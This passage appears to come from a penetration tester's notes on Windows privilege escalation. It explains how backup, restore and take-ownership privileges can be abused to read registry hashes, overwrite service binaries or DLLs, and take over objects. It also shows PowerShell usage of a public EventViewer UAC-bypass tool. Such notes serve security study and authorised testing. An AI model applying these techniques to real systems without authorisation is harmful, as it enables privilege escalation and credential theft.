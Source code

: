 ### <mark style="color:blue;">SeBackupPrivilege</mark>

The SeBackupPrivilege grants read access to all objects on the system, regardless of their ACL. Using this privilege, a user could gain access to sensitive files, or extract hashes from the registry which could then be cracked or used in a pass-the-hash attack.

### <mark style="color:blue;">SeRestorePrivilege</mark>

The SeRestorePrivilege grants write access to all objects on the system, regardless of their ACL. There are a multitude of ways to abuse this privilege:&#x20;

* Modify service binaries.&#x20;
* Overwrite DLLs used by SYSTEM processes&#x20;
* Modify registry settings.

### <mark style="color:blue;">SeTakeOwnershipPrivilege</mark>

The SeTakeOwnershipPrivilege lets the user take ownership over an object (the WRITE\_OWNER permission). Once you own an object, you can modify its ACL and grant yourself write access. The same methods used with SeRestorePrivilege then apply.

### <mark style="color:blue;">Other Privileges (More Advanced)</mark>

* SeTcbPrivilege
* SeCreateTokenPrivilege
* SeLoadDriverPrivilege
* SeDebugPrivilege (used by getsystem)

## <mark style="color:red;">UAC BYPASS</mark>

{% embed url="https://github.com/CsEnox/EventViewer-UACBypass" %}

### <mark style="color:blue;">EventViewer-UACBypass</mark>

#### Usage

```
PS C:\Windows\Tasks> Import-Module .\Invoke-EventViewer.ps1

PS C:\Windows\Tasks> Invoke-EventViewer 
[-] Usage: Invoke-EventViewer commandhere
Example: Invoke-EventViewer cmd.exe

PS C:\Windows\Tasks> Invoke-EventViewer cmd.exe
[+] Running
[1] Crafting Payload
[2] Writing Payload
[+] EventViewer Folder exists
[3] Finally, invoking eventvwr
```
